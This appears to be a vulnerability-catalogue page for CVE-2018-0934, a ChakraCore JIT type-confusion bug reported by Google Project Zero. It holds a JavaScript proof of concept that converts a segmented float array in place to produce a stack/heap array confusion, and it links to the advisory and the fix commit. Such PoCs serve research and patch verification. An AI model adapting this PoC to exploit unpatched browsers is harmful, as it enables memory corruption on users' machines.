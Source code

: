 # CVE-2018-0934

- Fix: Mar 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function inlinee() {
    new Error();
    return inlinee.arguments[0];
}

function opt(convert_to_var_array) {
    /*
    To make the in-place type conversion happen, it requires to segment.
    */

    let stack_arr = [];  // JavascriptNativeFloatArray
    stack_arr[10000] = 1.1;
    stack_arr[20000] = 2.2;

    let heap_arr = inlinee(stack_arr);
    convert_to_var_array(heap_arr);

    stack_arr[10000] = 2.3023e-320;

    return heap_arr[10000];
}

function main() {
    for (let i = 0; i < 10000; i++) {
        opt(new Function(''));  // Prevents to be inlined
    }

    print(opt(heap_arr => {
        heap_arr[10000] = {};  // ConvertToVarArray
    }));
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-0934)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1503)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/6d0f5de1e0331fd6dd4f1ee0c0032430bcb131c3)